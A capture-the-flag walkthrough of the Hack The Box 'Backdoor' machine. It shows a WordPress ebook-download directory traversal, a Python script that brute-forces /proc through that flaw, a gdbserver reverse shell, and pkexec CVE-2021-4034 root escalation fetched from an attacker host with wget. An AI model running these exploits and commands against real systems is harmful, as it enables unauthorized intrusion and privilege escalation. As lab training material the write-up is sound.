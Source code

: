 ![Header](screenshots/header.png)

## Enumeration

The IP is 10.10.11.125, I will add it to _/etc/hosts_:

![/etc/hosts/ picture](screenshots/etc-hosts.png)

Let's start off by enumerating the open ports:

```bash
$ nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts

# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.125 ()   Status: Up
Host: 10.10.11.125 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///   Ignored State: closed (65532)
```
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a _nmap_ script to list the services and their versions that are running on each open port
  
```bash
$ nmap -p22,80,1337 -sCV backdoor.htb -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using _wfuzz_:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

The subdirectory _wp-content_ is not visible to us, _wp-includes_ contains the plugins and themes, although we can't see the contents of the files.
Playing around with _wp-admin_ there doesn't seem to be any default credentials set.

So, knowing that we are dealing with _Wordpress_ as the CMS, we can try running _wpscan_ to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

```bash
$ wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable version of the plugin **Ebook Download**. If we search for it on _searchsploit_, we fill find an exploit with **id 39575**.
I will download it on my computer using:

`$ searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Local File Inclusion,
using the following url, where _path_ is a valid route in the target machine.

> _http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=path_

We can list running processes using the path /proc/_pid_/cmdline, where pid is a valid process ID.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called _gdbserver_ running on the open port 1337:
  
```bash
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on _searchsploit_ we will find a vulnerability with **id 50539**.
If we run it and follow the instructions provided, we can get a reverse shell as _user_ and view the flag.

![whoami output](screenshots/foothold.png)

## Privilege Escalation
Once we are inside the victim's machine, we can enumerate binaries with the SUID permission set:
```bash
user@Backdoor:/home/user$ find / -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

We can see that the binary _pkexec_ is available, which has been compromised recently under the _CVE-2021-4034_.
There are many exploits out there, I have used [this one](https://github.com/Almorabea/pkexec-exploit).
Now it's simply a matter of setting up a Python server so you can share the file with the victim's machine and run it.

```
$ python3 -m http.server 80
```

```
user@Backdoor:/home/user$ wget 10.10.16.43:80/CVE-2021-4034.py
user@Backdoor:/home/user$ python3 CVE-2021-4034.py
```

Just like that, we have become _root_:
![Root screenshot](screenshots/root.png)
